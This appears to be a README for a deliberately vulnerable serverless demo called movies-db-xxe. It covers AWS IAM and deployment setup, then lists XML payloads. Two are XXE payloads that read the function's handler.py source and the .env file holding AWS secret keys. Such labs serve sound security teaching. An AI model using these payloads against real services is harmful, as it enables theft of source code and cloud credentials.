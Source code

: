 # movies-db-xxe

(1) Clone

(2) Run the following commands:

- `aws iam create-user --user-name demo-user`
- `aws iam create-policy --policy-name demo-policy --policy-document '{ "Version": "2012-10-17", "Statement": [ { "Sid": "VisualEditor0", "Effect": "Allow", "Action": [ "s3:ListAllMyBuckets", "s3:ListBucket", "s3:HeadBucket" ], "Resource": "*" }, { "Sid": "VisualEditor1", "Effect": "Allow", "Action": "s3:GetObject", "Resource": [ "arn:aws:s3:::movies.db", "arn:aws:s3:::movies.db/*" ] } ] }'`
- `aws iam attach-user-policy --user-name demo-user --policy-arn 'arn:aws:iam::123123123123:policy/demo-policy'`
- `aws iam create-access-key --user-name demo-user`

(3) Take the SecretAccessKey and AccessKeyId from the output of the create-access-key command and put them inside the  .env 

(4) npm i

(5) sls deploy


## Payloads

- normal:
```<?xml version="1.0"?><movie>Harry Potter</movie>```

- malicious, source code:
```<?xml version="1.0"?><!DOCTYPE test [ <!ENTITY test SYSTEM "/var/task/handler.py">]><movie>&test;</movie>```

- malicious, env keys:
```<?xml version="1.0"?><!DOCTYPE test [ <!ENTITY test SYSTEM ".env">]><movie>&test;</movie>```
